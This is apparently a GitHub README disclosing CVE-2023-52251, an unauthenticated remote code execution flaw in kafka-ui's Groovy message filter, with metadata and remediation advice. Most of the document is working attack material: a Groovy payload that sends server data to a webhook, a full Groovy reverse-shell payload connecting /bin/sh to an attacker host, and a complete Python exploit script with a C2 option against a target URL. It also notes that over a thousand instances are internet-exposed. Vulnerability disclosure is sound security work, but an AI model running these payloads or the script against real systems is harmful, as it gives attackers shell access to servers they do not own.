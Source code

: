 # CVE-2023-52251-POC

There is a Remote Code Execution vulnerability [provectus/kafka-ui](https://github.com/provectus/kafka-ui). There is no patch as of writing this, but the vendor is notified by us and the team over at [VINCE](https://kb.cert.org/vince) without any response. Report was sent Sep 27, 2023 to provectus both via email and github security. 

# Remediation

We suggest commenting out the entire groovy filter function/adding authentication as a minimum.

## Metadata

| Title             | Value                                                                                                                                                                          |
| ----------------- | :----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| CVSS String       | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:H                                                                                                                                   |
| CVE ID            | CVE-2023-52251                                                                                                                                                                 |
| CVS Description   | provectus kafka-ui 0.4.0-0.7.1 was discovered to contain a remote command execution (RCE) vulnerability via the q parameter at /api/clusters/local/topics/{topic}/messages |
| CVSS Score        | 9.x                                                                                                                                                                            |
| CWE               | CWE-94: Improper Control of Generation of Code ('Code Injection')                                                                                                              |
| Vendor            | Provectus                                                                                                                                                                      |
| Product           | kafka-ui                                                                                                                                                                       |
| Link              | <https://github.com/provectus/kafka-ui>                                                                                                                                        |
| Affected Versions | 0.4.0-0.7.1                                                                                                                                                                    |
| Patched Versions  | None                                                                                                                                                                           |
| Contributors      | [Thingstad](https://github.com/thingstad), [BobTheShoplifter](https://github.com/BobTheShoplifter)                                                                             |

### Details

Vulnerability Type: Remote Code Execution (RCE)

Affected Software: [Kafka-ui](https://github.com/provectus/kafka-ui)

Version: [0.4.0-0.7.1]

#### Vulnerability Description

There is no sanitization of the groovy script filter before it is executed. This allows an attacker to execute arbitrary code on the server.

#### Source Code Reference

In the function [groovyScriptFilter](https://github.com/provectus/kafka-ui/blob/master/kafka-ui-api/src/main/java/com/provectus/kafka/ui/emitter/MessageFilters.java#L41>) the "script" is not sanitized before being executed.

And is being evaled in the engine:

```java
var result = compiledScript.eval(bindings);
```

<https://github.com/provectus/kafka-ui/blob/master/kafka-ui-api/src/main/java/com/provectus/kafka/ui/emitter/MessageFilters.java#58>

### PoC

_Complete instructions, including specific configuration details, to reproduce the vulnerability._

Using the filter:

```groovy
new URL("https://webhook.site/xxxxxx-xxxx-xxxx-xxxx-xxxxxxxx/" + System.getProperty("os.name")).text
```

![Filter screenshot](screenshot1.png)

Will send a request to the webhook with the OS name of the server.

![Webhook screenshot](screenshot2.png)

Further expanding on this, we can use the following payload to get a reverse shell:

```groovy
String host="xxx.xxx.xxx.xx";int port=8080;String cmd="/bin/sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

The payload is generated easily on <https://www.revshells.com/>.

![Reverse shell](screenshot3.png)

And a poc in python has also been created:

```python
from time import sleep
import requests
import json
import urllib
import argparse

url = 'http://localhost:8080'
clusters = None
c2 = "xxx.xxx.xxx.xx"
port = "8080"
mode = "check"


def get_clusters():
    global clusters
    clusterfetch = requests.get(url + '/api/clusters')
    clusters = clusterfetch.json()


def get_topics(cluster):
    topicfetch = requests.get(
        url + f'/api/clusters/{cluster}/topics?showInternal=true&search=&orderBy=NAME&sortOrder=ASC')
    topics = topicfetch.json()['topics']
    return topics


def get_webhooks():
    webhookfetch = requests.post('https://webhook.site/token')
    webhook = 'https://webhook.site/' + webhookfetch.json()['uuid']+"/"
    print('URL Created: ' + webhook)
    token_id = webhookfetch.json()['uuid']
    headers = {"api-key": webhookfetch.json()['uuid']}
    return webhook, token_id, headers


def Exploit():
    try:
        get_clusters()

        cluster = clusters[0]['name']

        topics = get_topics(cluster)
        topic = topics[0]['name']

        webhook, token_id, headers = get_webhooks()

        checkpayload = 'new URL("'+webhook+'").text'

        rcepayload = 'String host="' + c2 + \
            '";int port='+port + \
            ';String cmd="/bin/sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();'

        payload = rcepayload if mode == "rce" else checkpayload

        r = requests.get(
            url + f'/api/clusters/local/topics/{topic}/messages?q={urllib.parse.quote(payload)}&filterQueryType=GROOVY_SCRIPT&attempt=2&limit=100&page=0&seekDirection=FORWARD&keySerde=String&valueSerde=String&seekType=BEGINNING', timeout=60)
        print(r.text)

        r = requests.get('https://webhook.site/token/' + token_id +
                         '/requests?sorting=newest', headers=headers)

        if r.json()['data'] == []:
            print("No rce found")
        else:
            for request in r.json()['data']:
                print(request)
                print("Rce found")

    except KeyboardInterrupt:
        print("KeyboardInterrupt")
        pass


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Kafka-ui4shell rce.')
    parser.add_argument('--mode', help='check, rce', required=False,
                        choices=['check', 'rce'], default="check")
    parser.add_argument(
        '--url', help='Target url. Example http://localhost:8080', required=True)
    parser.add_argument('--c2', help='C2 ip for RCE',
                        required=False),
    parser.add_argument('--c2port', help='File with urls', required=False)
    args = parser.parse_args()

    if args.mode == "rce":
        # Check if c2 and c2port are set
        if args.c2 and args.c2port:
            c2 = args.c2
            port = args.c2port
            mode = args.mode
            Exploit()
            exit()
        else:
            print("C2 and C2 port are required for RCE")
            exit()

    if args.url:
        url = args.url
        if args.mode:
            mode = args.mode
        if args.c2:
            c2 = args.c2
        if args.c2port:
            port = args.c2port
        Exploit()
        exit()

    else:
        parser.print_help()
```

### Impact

This vulnerability allows an attacker to execute arbitrary code on the server. This can be used to gain access to the server and further compromise the system. This vulnerability is exploitable by any user with access to the kafka-ui web interface.

At the time of writing, there are 1,000+ instances of kafka-ui exposed to the internet according to [Cencys](https://search.censys.io/search?resource=hosts&sort=RELEVANCE&per_page=25&virtual_hosts=EXCLUDE&q=services.http.response.html_title%3A+%22UI+for+Apache+Kafka%22). All of these instances could be vulnerable to this attack.

![Cencys screenshot](screenshot4.png)

This software is also likely to run on internal networks, where an attacker could gain access to the network and exploit this vulnerability.

### Contrubutors

Lars Thingstad - [@Thingstad](https://github.com/thingstad)
Daniel Christensen - [@BobTheShoplifter](https://github.com/BobTheShoplifter)

### References

- <https://cwe.mitre.org/data/definitions/94.html>
